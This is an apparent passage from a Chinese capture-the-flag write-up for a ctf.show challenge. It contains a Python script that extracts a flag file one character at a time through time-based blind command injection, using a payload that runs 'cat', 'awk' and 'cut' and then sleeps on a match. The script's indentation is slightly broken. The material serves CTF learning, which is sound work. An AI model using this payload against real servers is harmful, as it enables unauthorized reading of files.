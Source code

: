 而脚本通过判断响应时间即可知道截取到的字符是否匹配，从而一个一个字符的获取

![image-20250124171223602](assets/image-20250124171223602.png)

读到flag的位置，接下来就是读文件了，原理一样

```python
import requests
import time
import string

str = string.digits+string.ascii_lowercase+"-"+"{"+"}"    
result = ""          

for i in range(1, 99):
    key = 0   
    for j in range(1, 99):
        if key == 1:
            break
        for n in str:      
            payload = "if [ `cat /f149_15_h3r3|awk 'NR=={0}'|cut -c {1}` == {2} ];then sleep 3;fi".format(i, j, n)   
            #print(payload)
            url = "http://a37f8386-b265-4794-b4d1-7e4e62f05859.challenge.ctf.show//?c=" + payload
            try:
                requests.get(url, timeout=(2.5, 2.5))   

			except:
                result = result + n
                print(result)
                break
                
    result += " "
```